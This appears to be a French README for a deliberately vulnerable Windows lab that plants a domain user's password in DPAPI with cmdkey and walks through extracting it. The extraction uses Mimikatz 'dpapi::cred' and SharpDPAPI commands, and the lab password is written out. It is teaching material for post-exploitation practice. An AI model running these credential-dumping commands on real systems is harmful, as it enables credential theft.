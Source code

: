 # DPAPI - Extraction des credentials de Hera

## Description
Les credentials de Hera sont maintenant stockés dans la DPAPI (Data Protection API) de Windows via la commande `cmdkey`.

## Configuration automatique
Le playbook `windows_dpapi.yml` configure automatiquement :
- Une tâche planifiée qui s'exécute au démarrage sous le compte `PANTHEON\hera`
- Injection du credential via : `cmdkey /add:pantheon.god /user:hera /pass:imissqueen2`
- Configuration sur les deux machines Windows : `pantheon-dc01` et `pantheon-enfers`

## Exploitation

### 1. Obtenir l'accès à une session de Hera
Pour extraire les credentials DPAPI, vous devez d'abord obtenir l'accès à une session utilisateur de Hera.

### 2. Dump des credentials DPAPI
Une fois connecté en tant que Hera, vous pouvez utiliser plusieurs méthodes :

#### Méthode 1 : Mimikatz
```powershell
# Lister les credentials stockés
cmdkey /list

# Utiliser Mimikatz pour extraire les credentials DPAPI
mimikatz "dpapi::cred /in:C:\Users\hera\AppData\Roaming\Microsoft\Credentials\<GUID>"
```

#### Méthode 2 : cmdkey natif
```cmd
# Lister les credentials stockés
cmdkey /list

# Les credentials seront visibles mais le mot de passe sera masqué
```

#### Méthode 3 : SharpDPAPI
```powershell
# Utiliser SharpDPAPI pour extraire les credentials
SharpDPAPI.exe triage
```

### 3. Credential trouvé
Après l'extraction DPAPI, vous devriez trouver :
- **Domaine** : `pantheon.god`
- **Utilisateur** : `hera`
- **Mot de passe** : `imissqueen2`

## Notes importantes
- Les credentials DPAPI sont spécifiques à l'utilisateur et au profil
- La tâche planifiée s'exécute au démarrage de chaque machine
- Les credentials sont protégés par la DPAPI de Windows et nécessitent les privilèges de l'utilisateur Hera pour être extraits

## Objectif pédagogique
Cette configuration permet d'apprendre :
- L'extraction de credentials depuis la DPAPI
- L'utilisation d'outils comme Mimikatz, SharpDPAPI
- Les faiblesses de stockage des credentials Windows
- Les techniques de post-exploitation 